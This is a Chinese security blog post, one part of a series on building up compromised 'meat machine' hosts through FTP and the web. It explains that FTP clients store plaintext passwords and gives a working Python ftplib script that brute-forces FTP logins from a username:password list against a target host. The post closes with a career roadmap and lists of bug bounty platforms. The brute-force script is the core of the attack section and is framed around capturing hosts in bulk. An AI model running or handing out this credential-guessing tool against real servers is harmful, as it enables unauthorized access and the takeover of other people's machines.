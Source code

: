 # 原创
：  【Python脚本进阶】2.3、利用FTP与Web批量抓“ 肉机”(中)：使用Ftplib暴力破解FTP用户口令

# 【Python脚本进阶】2.3、利用FTP与Web批量抓“ 肉机”(中)：使用Ftplib暴力破解FTP用户口令

 <img alt="" src="https://img-blog.csdnimg.cn/2e86bda3ff034c71920f2f40732c3929.gif"/>

## 前言：

> 
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/c2dfbe518f7d43a2978e4e6f1bfd5ea1.gif" width="24"/>介绍： </h3>
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>博主：网络安全领域狂热爱好者（承诺在CSDN永久无偿分享文章）。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>殊荣：CSDN网络安全领域优质创作者，2022年双十一业务安全保卫战-某厂第一名，某厂特邀数字业务安全研究员，edusrc高白帽，vulfocus、攻防世界等平台排名100+、高校漏洞证书、cnvd原创漏洞证书等。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>擅长：对于技术、工具、漏洞原理、黑产打击的研究。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>C站缘：C站的前辈，引领我度过了一个又一个技术的瓶颈期、迷茫期。
<hr/>
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：</h3>
<img alt="" height="23" src="https://img-blog.csdnimg.cn/b1b5426baac44b97b68428245cc35d77.png" width="23"/>面向读者：对于网络安全方面的学者。 
<img alt="" height="23" src="https://img-blog.csdnimg.cn/19ea593260b84ec8b836a336326fa0cc.png" width="23"/>本文知识点（读者自测）： 
（1）使用Ftplib暴力破解FTP用户口令（√）


### <img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：

> 
<h2> <img alt="" height="23" src="https://img-blog.csdnimg.cn/19e90c25b42d4b368c3c94da4b04afb0.png" width="23"/>让读者如虎添翼</h2>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|抓肉鸡博文|目标|状态
|[【Python脚本进阶】利用FTP与Web批量抓“ 肉机”(上)：构建匿名FTP扫描器](https://blog.csdn.net/qq_53079406/article/details/126052839)|构建匿名FTP扫描器|已发布
|[【Python脚本进阶】2.3、利用FTP与Web批量抓“ 肉机”(中)：使用Ftplib暴力破解FTP用户口令](https://blog.csdn.net/qq_53079406/article/details/126053636)|使用Ftplib暴力破解FTP用户口令|已发布
|[【Python脚本进阶】2.3、利用FTP与Web批量抓“ 肉机”(下)：在FTP服务器上搜索网页+注入代码](https://blog.csdn.net/qq_53079406/article/details/126060388)|在FTP服务器上搜索网页+注入代码|已发布
|[【Python脚本进阶】2.3、利用FTP与Web批量抓“ 肉机”(终）](https://blog.csdn.net/qq_53079406/article/details/126076401)|利用FTP与Web批量抓肉机|已发布
</tbody></table>



---


**目录**

[一、简介](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B)

[1.1、概述：](#1.1%E3%80%81%E6%A6%82%E8%BF%B0%EF%BC%9A)

[二、实现：](#%E4%BA%8C%E3%80%81%E5%AE%9E%E7%8E%B0%EF%BC%9A)

[2.1、背景：](#2.1%E3%80%81%E8%83%8C%E6%99%AF%EF%BC%9A)

[2.2、函数：](#2.2%E3%80%81%E5%87%BD%E6%95%B0%EF%BC%9A)

[2.3、步骤：](#2.3%E3%80%81%E6%AD%A5%E9%AA%A4%EF%BC%9A)

---


## 一、简介

> 
<h3>1.1、概述：</h3>
虽然匿名访问是进入系统的方式之一， 但攻击者也能成功地用偷来的用户名／密码访问合法的FTP 服务器。FileZilla 之类的FTP 客户端程序往往将密码以明文形式存储在配置文件中。在默认位置中存储明文密码使得专门为此编写的恶意软件能够迅速窃取用户名／密码。
<hr/>
安全专家们在发现的恶意软件中也发现了窃取FTP 密码的功能。一个名为get_filezilla creds.rb 的脚本也集成在了发布的Metasploit 中， 允许用户在获得目标控制权后可以快速寻找FTP 密码。


---


---


## 二、实现：

> 
<h3>2.1、背景：</h3>
假设要暴力破解的某个用户名／密码对就在一个文本文件里的纯文本文件中中
格式为：
（1.txt）
administrator:password<br/> admin:12345<br/> root:secret<br/> guest:guest<br/> root:toor


> 
<h3>2.2、函数：</h3>
ftplib.FTP类：实现FTP协议的客户端，可以使用它来编写执行各种FTP作业的Python程序


> 
<h3>2.3、步骤：</h3>
将anonLogin()函数扩展创建成一个名为bruteLogin(）的函数。这个函数接收的参数是主机名和含有密码的文件， 返回一个能登录该主机的用户名／密码。该函数逐个读取文件中的每一行记录， 用户名和密码之间是以冒号分隔的。然后函数尝试用这个用户名和密码登录FTP 服务器。
<hr/>
如果成功， 则返回一个用户名和密码的tuple。如果失败， 它跳过该异常继续到下一行。如果函数穷尽所有的行仍未能成功登录， 则返回一个值为None、None的tuple 。


<pre><code>import ftplib


def bruteLogin(hostname, passwdFile):
    pF = open(passwdFile, 'r')
    for line in pF.readlines():
        userName = line.split(':')[0]
        passWord = line.split(':')[1].strip('\r').strip('\n')
        print('[+] Trying: ' + userName + '/' + passWord)
        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(userName, passWord)
            print('\n[*] ' + str(hostname) + ' FTP Logon Succeeded: ' + userName + '/' + passWord)
            ftp.quit()
            return (userName, passWord)
        except Exception as e:
            pass
    print('\n[-] Could not brute force FTP credentials')
    return (None, None)


host = '192.168.190.131'
passwdFile ='1.txt'
bruteLogin(host, passwdFile)
</code></pre>


---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>


<table border="1" cellpadding="1" cellspacing="1"><tbody>|互联网大厂|URL
|阿里|https://asrc.alibaba.com/#/
|腾讯|https://security.tencent.com/
|百度|https://bsrc.baidu.com/v2/#/home
|美团|https://security.meituan.com/#/home
|360|https://security.360.cn/
|网易|https://aq.163.com/
|字节跳动|https://security.bytedance.com/
|京东|https://security.jd.com/#/
|新浪|http://sec.sina.com.cn/
|微博|https://wsrc.weibo.com/
|搜狗|http://sec.sogou.com/
|金山办公|https://security.wps.cn/
|有赞|https://src.youzan.com/
</tbody></table>

<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/18b63058b35848b19967730eb49fcb45.png" width="23"/>Third Year </h3>
学习最新的知识，建全自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/7ccb45a55d5244edad5a9a1fabc55f08.png" width="23"/>目标：参与护网（每一个男孩子心中的梦想） 
时间：一般5月面试，6/7月开始（持续2-3周）
分类：国家级护网、省级护网、市级护网、重大节日护网（如：建党、冬奥等）


### <img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year 

---

